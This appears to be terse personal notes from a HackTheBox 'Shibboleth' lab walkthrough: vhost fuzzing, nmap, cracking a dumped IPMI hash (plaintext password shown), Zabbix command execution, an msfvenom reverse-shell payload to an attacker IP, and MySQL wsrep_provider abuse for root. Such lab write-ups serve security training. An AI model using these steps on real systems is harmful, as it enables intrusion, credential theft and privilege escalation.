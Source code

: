 # Two is better than one
* https://github.com/A1vinSmith/OSWE-EXP/tree/main/HackTheBox/Linux/Zipper
* https://infosecwriteups.com/shibboleth-hackthebox-walkthrough-f5c52d8949cf

### ffuf Vhosts Fuzzing
```
ffuf -u "http://shibboleth.htb/" -H "Host:FUZZ.shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fc 302
```

Add them to the hosts
```
monitor                 [Status: 200, Size: 3686, Words: 192, Lines: 30]
monitoring              [Status: 200, Size: 3686, Words: 192, Lines: 30]
zabbix                  [Status: 200, Size: 3686, Words: 192, Lines: 30]
```

##### Vhosts vs. Sub-domains
The key difference between VHosts and sub-domains is that a VHost is basically a 'sub-domain' served on the same server and has the same IP, such that a single IP could be serving two or more different websites.

VHosts may or may not have public DNS records.

In many cases, many websites would actually have sub-domains that are not public and will not publish them in public DNS records, and hence if we visit them in a browser, we would fail to connect, as the public DNS would not know their IP. Once again, if we use the sub-domain fuzzing, we would only be able to identify public sub-domains but will not identify any sub-domains that are not public.

This is where we utilize VHosts Fuzzing on an IP we already have. We will run a scan and test for scans on the same IP, and then we will be able to identify both public and non-public sub-domains and VHosts.

### Nmap UDP the Sub-domains
##### Get running ports with rustscan
```

❯ docker pull rustscan/rustscan:latest
❯ docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 10.129.187.84
```
##### Nmap the opening ports
```
❯ sudo nmap -sU -p 623 zabbix.shibboleth.htb
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-16 20:17 NZDT
Nmap scan report for zabbix.shibboleth.htb (10.129.187.84)
Host is up (0.26s latency).
rDNS record for 10.129.187.84: shibboleth.htb

PORT    STATE SERVICE
623/udp open  asf-rmcp

Nmap done: 1 IP address (1 host up) scanned in 0.66 seconds
```

### Google exploit asf-rmcp
* https://book.hacktricks.xyz/pentesting/623-udp-ipmi

##### Check version and dump hashes
```
hashcat -m 7300 hash /usr/share/wordlists/rockyou.txt
```

```
7c52d90982030000c46a8fbe259e2846070afb69ee206ad2e54ddc8fba4f43ff579e27b0442748eaa123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:d78f8dffe25735b4e9cc37c51519adb34b60fbaf:ilovepumkinpie1
```

### Others
```
system.run[command]

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.29 LPORT=6666 -f elf-so -o elf

grep -iR 'password' /etc/zabbix/

mysql -D zabbix -u zabbix -pPasswordFoundAbove

SET GLOBAL wsrep_provider="/home/ipmi-svc/elf";
```
